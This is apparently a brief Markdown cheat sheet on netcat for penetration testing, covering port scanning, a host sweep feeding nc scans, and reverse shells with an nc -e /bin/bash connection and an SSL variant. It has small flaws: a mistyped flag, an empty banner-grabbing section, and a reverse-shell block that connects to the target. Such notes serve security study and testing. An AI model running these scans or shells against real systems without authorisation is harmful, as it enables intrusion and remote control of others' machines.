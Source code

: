 ## Netcat
Can be used for several thinks
- Port Scanning
- File Transfer
- Reverse Shells

### Port Scanning
maybe slower than nmap, but can be used if nmap is not available

```sh
nc -nv -w 1 -z <target-ip> <port-range>

-nv # doesn't resolve hostnames
-w 1 # timeout after 1 second
-z # port scan (zero I/O mode, only scan for listening ports)
-u # UDP mode (unreliable) 
-vn # verbose and no DNS resolution

```
#### Banner Grabbing
will be added
```sh

```


#### Example:

```bash
nc -nc -w 1 -z 192.234.1.1 1-1000

#scan more than one Host:
#1.
nmap 192.234.1.1/24 -sn -n -oG - | awk '/Up$/{print $2}' > ips.txt
#2.
while read ip; do nc -nv -w 1 -z $ip 80; done < ips.txt
```

### Reverse Shell
```sh
#Terminal Window 1
    nc -nvlp 1337 #listener
    
# Terminal Window 2
    nc -nv <target-ip> 1337 #connect to listener
    -e #execute command / standard is /bin/bash
```
#### Reverse Shell Encrypted
```sh
#Terminal Window 1
    nc -nvlp 1337 --ssl #listener encrypted
    
# Terminal Window 2
    nc -nv <target-ip> 1337 -ssl #connect to listener encrypted
```